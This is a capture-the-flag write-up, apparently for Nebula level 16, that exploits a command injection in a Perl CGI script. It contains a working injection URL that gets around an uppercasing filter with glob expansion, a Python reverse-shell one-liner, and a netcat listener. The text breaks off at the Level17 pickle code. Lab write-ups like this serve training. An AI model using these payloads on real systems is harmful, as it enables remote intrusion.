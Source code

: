 The service is running with flag16 privileges:
```
sh-4.2$ ps auxww | grep [f]lag16
flag16    1314  0.0  0.3   2592   836 ?        Ss   Jun18   0:01 /usr/sbin/thttpd -C /home/flag16/thttpd.conf
```

Clearly, there is RCE vulnerability (line 14), we can check it creating an arbitrary file:
```
sh-4.2$ wget -q -O /dev/null "http://192.168.80.136:1616/index.cgi?username=%24(>abcd)&password=x" 

sh-4.2$ ls -l /home/flag16/ABCD 
-rw-rw-r-- 1 flag16 flag16 0 2015-06-21 00:16 /home/flag16/ABCD
```

Only problem is that input is uppercased and everything after whitespace character is stripped:

```perl
$username =~ tr/a-z/A-Z/; # conver to uppercase
$username =~ s/\s.*//;    # strip everything after a space

```

We tried several other methods without success. In the later case, the shell runs, but we cannot do anything useful:
```
http://192.168.80.136:1616/index.cgi?username=$(CMD=YES;${CMD~~})&password
http://192.168.80.136:1616/index.cgi?username=$($SHELL)&password
```

Our solution was to create uppercased file in /tmp/ and use * expansion, telling bash to find the correct directory.

```
sh-4.2$ cat SH 
python -c "import sys,socket,os,pty; _,ip,port=sys.argv; s=socket.socket(); s.connect((ip,int(port))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')" nebula 1337

sh-4.2$ chmod +x SH 

sh-4.2$ nc -l 1337

# http://192.168.80.136:1616/index.cgi?username=$(/*/SH)
sh-4.2$ wget -q -O /dev/null "http://192.168.80.136:1616/index.cgi?username=%24(/%2A/SH)

flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
```

# Level17

```py
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

```